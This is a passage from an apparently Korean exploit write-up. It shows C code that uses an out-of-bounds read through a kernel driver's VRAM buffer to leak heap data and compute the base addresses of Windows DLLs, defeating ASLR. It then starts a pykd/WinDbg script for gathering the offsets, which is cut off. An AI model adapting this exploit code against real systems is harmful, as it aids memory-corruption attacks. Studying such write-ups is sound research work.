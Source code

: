 ```C

	printf("[+] Find DLL address from Leaked Data\n");

	__int64 combase = 0, RPCRT4 = 0, KernelBase = 0, VideoDirtListenerVtable = 0, VideoDirtListener = 0, * VideoDirtListenerOffset = NULL;
	for (__int64* qword = LeakDll.buffer; qword < (__int64*)LeakDll.buffer + (LeakDll.to-LeakDll.from)/8; qword++) {
		unsigned short* word = qword;

		if (*qword > 0x7ff000000000 && *qword < 0x7fffffffffff) {//probably dll address value
			for (int i = 0; i < COMBASE_LEN && combase == 0; i++) {//Compare with Combase Offsets
				unsigned short diff = (unsigned short)combase_offset[i];
				if (diff == *word) combase = *qword - combase_offset[i];
			}

			for (int i = 0; i < RPCRT4_LEN && RPCRT4 == 0; i++) {//Compare with Combase Offsets
				unsigned short diff = (unsigned short)rpcrt4_offset[i];
				if (diff == *word) RPCRT4 = *qword - rpcrt4_offset[i];
			}

			for (int i = 0; i < KERNELBASE_LEN && KernelBase == 0; i++) {
				unsigned short diff = (unsigned short)kernelbase_offset[i];
				if (diff == *word) KernelBase = *qword - kernelbase_offset[i];
			}
		}
		if (combase && RPCRT4 && KernelBase) break;// && VideoDirtListener
	}
	printf("[+] DLL Address\n");
	printf("combase.dll: %llx\nRPCRT4.dll: %llx\nKernelBase.dll: %llx\n", combase, RPCRT4, KernelBase);
```

`DeviceIoControl` 함수로 커널 드라이버가 VRAM 버퍼에 데이터를 쓰고 OOB Read로 타겟 힙에서 데이터를 읽어서 `LeakDll`의 버퍼에 써줍니다. `combase_offset`, `rpcrt4_offset`, `kernelbase_offset`은 타겟 힙의 첫 1MB 정도의 데이터에서 찾은 dll의 주소값들의 오프셋을 저장해둔 배열입니다. 타겟 힙의 데이터 중에서 DLL 주소값으로 보이는 것들의 하위 2바이트가 오프셋 중 하나와 일치하면 오프셋을 주소값에서 빼서 특정 DLL의 주소를 알아내는 방식이죠! rebase되어도 하위 2바이트의 오프셋은 바뀌지 않기 때문에 이러한 방법이 유효했습니다.
그럼 이 오프셋 정보들은 어떻게 수집했을까요? 메모리에서 값을 하나 하나 정성스럽게 찾은 건 아니고 windbg 익스텐션인 pykd를 사용한 스크립트를 작성해서 사용했습니다 ㅋㅋㅋㅋ

```python
# FindDll.py
import pykd, argparse

parser = argparse.ArgumentParser()

parser.add_argument("--addr", type=str) #in hex
parser.add_argument("--len", type=str) #in hex

args = parser.parse_args()

heap_addr = int(args.addr, 16)
len = int(args.len, 16) // 8

combase_offsets = []
RPCRT4_offsets = []
kernelbase_offsets = []
combase = pykd.module("combase")
rpcrt4 = pykd.module("RPCRT4")
kernelbase = pykd.module("KernelBase")

data = pykd.loadQWords(heap_addr, len)

buf = ""

```